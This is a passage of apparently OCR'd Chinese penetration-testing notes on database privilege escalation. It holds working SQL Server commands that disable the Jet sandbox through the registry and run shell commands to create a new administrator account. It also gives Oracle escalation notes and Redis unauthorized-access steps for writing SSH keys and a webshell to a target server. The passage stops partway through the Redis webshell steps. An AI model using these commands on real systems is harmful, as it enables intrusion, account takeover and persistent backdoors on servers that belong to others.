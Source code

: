     * sp_oamethod

    ```sql
    
    ```

    * 沙盒模式（前两个不能提权使用这个）

    ```powershell
    参考资料：https://blog.51cto.com/11797152/2411770
    exec sp_configure 'show advanced options',1;reconfigure;
    -- 不开启的话在执行 xp_regwrite 会提示让我们开启，
    exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
    --关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。
    exec master..xp_regwrite
    'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
    --查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。
    exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines',
    'SandBoxMode'
    -- 执 行 系 统 命 令 select * from
    openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user
    margin margin /add")')
    select * from
    openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net
    localgroup administrators margin /add")')
    沙盒模式 SandBoxMode 参数含义（默认是 2）
    ```

    * 映像劫持

  * oracle（oracle环境都是jsp+oracle、java等开发环境）

    **jsp网站后门不需要提权，自带就是系统权限，自带system**

    * 普通用户

    前提是拥有一个普通的oracle连接账号，不需要dba权限，可提权至dba用户，并以oracle实例运行的权限执行操作系统命令

    * dea用户(自动化工具)
    * 注入模式(sqlmap测试演示)

    思路：先用sqlmap跑，判断当前数据库权限，针对不同的权限，用oracle提权工具进行跑
    
  * Redis数据库

  ​       Redis 服务因配置不当，可被攻击者恶意利用。黑客借助 Redis 内置命令，可将现有数据恶意清空； 如果     Redis 以 root 身份运行，黑客可往服务器上写入 SSH 公钥文件，直接登录服务器。

  ```powershell
  # 首先得连接redis数据库（可以通过redis未授权登录或者有redis的密码账号）
  """
  Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。
  """
  未授权漏洞危害
  （1）攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行flushall来清空所有数据；
  （2）攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件；
  （3）最严重的情况，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器
  利用redis写webshell
  利用前提：
  靶机redis链接未授权，在攻击机上能用redis-cli连上
  ./redis-cli -h 193.168.216.123
  开了web服务器，并且知道路径（如利用phpinfo，或者错误爆路经），还需要具有文件读写增删改查权限
  （我们可以将dir设置为一个目录a，而dbfilename为文件名b，再执行save或bgsave，则我们就可以写入一个路径为a/b的任意文件。）
  1. 可以写webshell
  config set dir /home/bmjoker
  config set dbfilename redis.php
  ```